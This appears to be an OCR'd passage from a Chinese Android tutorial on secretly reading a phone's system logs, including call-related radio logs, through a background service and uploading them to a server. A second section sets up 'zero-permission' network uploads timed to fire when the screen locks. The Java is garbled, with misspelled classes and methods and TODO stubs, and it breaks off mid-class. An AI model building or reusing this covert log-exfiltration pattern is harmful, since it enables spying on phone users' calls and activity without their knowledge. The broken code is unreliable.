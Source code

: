 ** Main     /dev/log/main
** Events   /dev/log/events
** Radio    /dev/log/radio
** System   /dev/log/system

* *Logcat实操* 目的：通过服务获取手机的所有日志并上传到服务器


<pre class="prettyprint">
public class ReadLogService extends Service {

    public IBinder onBind(Intext intext) {
        return null;
    }
    
    public void onStart(Intent intent, int startId) {
        super.onStart(intent, startId);
        // 开启线程读取日志（需要相关READ_LOGS权限）
        new Thread(new ReadLogTask()).start();
    }
    
    private class ReadLogTask implements Runnable {
        public void run() {
            // logcat -b main
            // logcat -b events     操作相关的日志
            // logcat -b radio      通话相关的日志
            // logcat -b system
            Process process = Runtime.getRunntime().exec("logcat -b radio");
            InputStream is = process.getInputStream();
            ByfferedReader br = new BufferedRead(new InputStreamReader(is));
            
            // TODO 把br流写到一个文件里或上传到服务器
        }
    }
}
</pre>

* *0权限访问网络* （上传）


<pre class="prettyprint">
public class ViewWebService extends Service {
    ScreenOFFBroadcastReceiver off;
    ScreenONBroadcastReceiver on;
    KeyGuardManager mKeyGuardManager;

    public IBinder onBind(Intext intext) {
        return null;
    }
    
    // 监听锁屏广播
    class ScreenOFFBroadcastReceiver extends BroadcastReceiver {
        public void onReceive(Context context, Intent intent) {
            // TODO 上传数据
            handler.postDelayed(r, 500);
        }
    }
    